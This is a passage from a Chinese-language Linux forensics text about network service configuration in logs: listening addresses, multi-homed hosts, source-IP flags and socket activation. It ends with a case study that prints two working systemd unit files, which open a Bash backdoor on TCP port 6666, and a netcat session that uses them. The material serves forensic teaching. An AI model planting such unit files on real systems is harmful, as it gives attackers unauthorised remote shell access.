 ```
Dec 17 09:49:32 pc1 sshd[362]: Server listening on 0.0.0.0 port 22.
Dec 17 09:49:32 pc1 sshd[362]: Server listening on :: port 22.
...
pc1/10.0.0.1 2020-12-16 07:28:08 daemon.info named[16700]: listening
on IPv6 interfaces, port 53
```

在这些示例中，secure shell 守护进程（`sshd`）和 Bind DNS 服务器（`named`）在启动时都记录了它们的监听配置。

仅绑定到本地主机（127.0.0.1 或 ::1）的服务只能从本地机器访问，而无法从附加网络（如互联网）访问。这种受限监听通常用于后端服务，如数据库，这些服务仅由其他本地守护进程访问，但绝不用于通过网络提供给远程机器。一些事件涉及这些后端服务的配置错误，导致它们意外地暴露到互联网，从而可能被滥用或遭到攻击。

拥有多个网络接口的主机被称为 *多网卡系统*，通常包括防火墙、代理服务器、路由器或具有虚拟接口的机器，这些接口来自 VPN 或隧道。客户端程序可能具有标志或配置，定义了使用哪个接口（或 IP）作为来源。例如，`ping` 命令具有 `-I` 标志，用于指定源 IP 或接口。Secure shell (SSH) 客户端可以使用 `-b` 标志或 `bindaddress` 指令来指定具有多个接口的机器上的源 IP。

在取证分析中，这些标志或配置可能很重要，因为它们指示了已建立网络连接的源 IP，或来自哪个接口的网络流量。IP 地址可能与远程日志、入侵检测系统（IDS）或网络取证分析相关联。

一些网络服务是通过基于网络的激活机制按需启动的。传统的 Unix 风格的网络服务激活使用一个名为 inetd（或 xinetd，一个流行的替代品）的守护进程，它监听多个传入的 TCP 和 UDP 端口，并在尝试连接时启动相应的守护进程。systemd **.socket** 文件为按需启动的守护进程执行类似的基于套接字的激活。

##### **案例研究：网络后门**

我将通过一个使用 systemd 套接字激活实现的后门案例来结束本节。在这个例子中，两个恶意的单元文件被写入用户的 systemd 单元目录（*.config/systemd/user/*），提供了一个通过套接字激活的后门 shell：

```
$ cat /home/sam/.config/systemd/user/backdoor.socket
[Unit]
Description=Backdoor for Netcat!

[Socket]
ListenStream=6666
Accept=yes

[Install]
WantedBy=sockets.target
```

如果启用，这个 *backdoor.socket* 文件会监听 TCP 端口 6666，并在收到连接时启动 *backdoor.service* 单元：

```
$ cat /home/sam/.config/systemd/user/backdoor@.service
[Unit]
Description=Backdoor shell!

[Service]
Type=exec
ExecStart=/usr/bin/bash
StandardInput=socket
```

这个 *backdoor.service* 文件启动一个 Bash Shell，并将输入和输出（`stdin` 和 `stdout`）传递给连接的网络客户端。远程攻击者可以使用 netcat 访问后门并运行 Shell 命令（使用 CTRL-C 断开连接）：

```
$ netcat pc1 6666
whoami
sam
^C
```
